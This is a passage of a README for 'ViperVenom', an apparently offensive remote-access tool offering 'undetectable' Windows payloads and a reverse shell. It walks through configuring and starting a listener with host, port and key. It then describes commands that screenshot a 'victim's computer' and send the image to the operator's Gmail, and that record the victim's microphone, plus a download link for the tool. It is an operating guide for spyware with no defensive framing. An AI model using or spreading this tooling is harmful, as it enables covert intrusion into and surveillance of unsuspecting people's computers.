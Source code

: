 ```

            Payloads                                    Description
            --------                                    -----------
            1) windows/vipervenom/tcp/payload           Undetectable ViperVenom Windows Payload

            2) windows/vipervenom/tcp/revshell          Undetectable ViperVenom Windows Reverse shell

```
You should be brought to the listener page.

To select a payload
```
use windows/vipervenom/tcp/payload

/ViperVenom/ > use windows/vipervenom/tcp/payload
(Listener) Windows/ViperVenom/TCP/Payload > 
```
After selecting payload, you must set up your host IP and port that you want to listen to, make sure that your client file has the same host IP and port.
```
EXAMPLE:
(Listener) Windows/ViperVenom/TCP/Payload > set host YOURIP
(Listener) Windows/ViperVenom/TCP/Payload > set port YOURPORT
(Listener) Windows/ViperVenom/TCP/Payload > set key b'RG3BR6Q20JRB3yclBtCEhZvQ1250f9SOGq0RWYfDoPQ='
(Listener) Windows/ViperVenom/TCP/Payload > options
LHOST=YOURIP
LPORT=YOURPORT
KEY=b'RG3BR6Q20JRB3yclBtCEhZvQ1250f9SOGq0RWYfDoPQ='
(Listener) Windows/ViperVenom/TCP/Payload >
```
The key should be the random key you got after generating the payload, copy the whole key including the b letter and the quotes and set it using "set key YOUR KEY"
there is an example of how I do it above this explanation

After you set everything up, type run and enter to start the listener

```
(Listener) Windows/ViperVenom/TCP/Payload > run
[*] Starting Listener...
Listener Started, Waiting for Connections...
```
## Special Commands

```
screenshot
```
Screenshots victim's computer and sends it directly to your Gmail account as base64 encoded image, decrypt it using the decode_image.py
that comes with ViperVenom and paste the base64 string in base64.txt and run the Python file, base64 and decode_image.py are in "Tools" folder.
```
$ python3 decode_image.py
```
The screenshot should appear in ViperVenom's Tool folder as a .jpg file.
```
$ mic record
```
Records victim's microphone input( if the victim has an available microphone) for an amount of time you set.
Known bug: You won't be able to type more commands after executing this command, we're working on a fix.


[Revise7]: https://revise7.com
[Download file]: https://github.com/Revise7/ViperVenom/archive/refs/heads/main.zip